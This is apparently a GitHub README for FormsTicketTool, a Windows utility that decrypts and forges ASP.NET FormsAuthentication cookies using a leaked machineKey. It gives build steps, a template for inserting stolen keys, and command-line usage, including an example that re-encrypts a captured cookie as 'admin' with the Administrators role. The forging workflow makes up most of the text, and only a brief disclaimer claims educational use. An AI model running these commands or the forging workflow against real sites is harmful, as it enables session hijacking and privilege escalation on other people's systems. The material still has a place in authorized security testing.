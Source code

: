 # FormsTicketTool

> decrypt / encrypt / create **ASP.NET FormsAuthentication** tickets using leaked machineKeys.

## Overview

A small Windows tool for decrypt/encrypt/create cookie "sessions" (`FormsAuthenticationTicket `) when owning the machineKey.

---

## Build

**Requirements**

- Visual Studio (or `csc.exe` / `dotnet build`)
- .NET Framework 4.8
- Add reference: `System.Web`

**Steps**:

1. Clone the repo:
   ```bash
   git clone https://github.com/4xura/FormsTicketTool.git
   cd FormsTicketTool
   ```

2. Open `FormsTicketTool.sln` in **Visual Studio** with a single-click build, or compile manually:

   ```
   csc /r:System.Web.dll FormsTicketTool.cs
   ```

3. Copy `App.config.template` → `App.config`. Insert the leaked machineKey.

4. Build → `FormsTicketTool.exe` will appear in `/bin/Debug` or `/bin/Release`.

---

## Usage

```
FormsTicketTool.exe decrypt <COOKIE> [--json] [--utc]
FormsTicketTool.exe encrypt <EXISTING_COOKIE> <NEW_USER> <USERDATA> <MINUTES_VALID>
FormsTicketTool.exe create  <USERNAME> <USERDATA> <MINUTES_VALID> [isPersistent]
FormsTicketTool.exe gen-config <decryptionKey> <validationKey> [compatibilityMode] [outfile]
FormsTicketTool.exe info
```

Prints:

- default: TTL and local timestamps

- `--json` (optional): machine-friendly JSON

  ```json
  {"version":1,"name":"john.doe","issued":"2025-10-20T19:46:10.3973725+08:00","expires":"2025-10-20T19:56:10.3973725+08:00","persistent":true,"userdata":"Vistor","cookiePath":"/"}
  ```

- `--utc`  (optional): show timestamps in UTC instead of local

Usage examples:

```sh
# decrypt a cookie string
FormsTicketTool.exe decrypt 8CE190CA4584C2E0...

# clone cookie into admin with Administrators role
FormsTicketTool.exe encrypt 8CE190CA4584C2E0... admin "Administrators" 120
```

------

## Config Example

Pop the **machineKey** into `App.config.template` (rename to `App.config` for actual run):

```xml
<configuration>
  <system.web>
    <machineKey
      decryption="AES"
      decryptionKey="B26C371E..."
      validation="HMACSHA256"
      validationKey="EBF9076B..." />
  </system.web>
</configuration>
```

------

## Disclaimer

This project is for educational and authorized research only.